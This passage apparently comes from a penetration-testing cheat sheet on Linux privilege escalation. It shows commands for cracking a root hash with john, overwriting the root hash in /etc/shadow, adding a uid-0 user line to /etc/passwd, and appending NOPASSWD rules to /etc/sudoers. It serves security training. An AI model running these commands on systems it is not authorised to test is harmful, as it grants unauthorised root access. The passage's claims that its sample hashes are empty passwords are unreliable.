 Save the root user (or someone you want to privilege escalate to) to a file and use `john` to crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Finally, switch user with cracked password

```bash
su root
```

#### Writable /etc/shadow

Generate a new password:

```bash
mkpasswd -m sha-512 newpassword
```

Edit the /etc/shadow file and replace the root password hash. Finally, switch user with new password. Here is the empty password hash

```bash
root:$6$1.kHoCdgGLxINgw$TQbdEgrYcctS4/o7EKtmWaxwBoOHaeU2nK4B66Any.4ksSyb5FFedubBtSs.Rc9DkxD02ju7RfK/I0U8MXdb50:17298:0:99999:7:::
```

### Writable /etc/passwd

!!! info
The /etc/passwd file contains information about user accounts. It usually only readable.

Get /etc/passwd permissions

```bash
ls -l /etc/passwd
```

Generate a new password

```bash
openssl passwd newpassword
```

Then, copy the root user row, replace username with and the "x" field with the new password to create new root user. Here is a new user with username is `lithonn` and password is empty (empty not "empty")

```bash
lithonn:lF/bBdY9ikuzY:0:0:root:/root:/bin/bash
```

### Writable /etc/sudoers

```bash
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
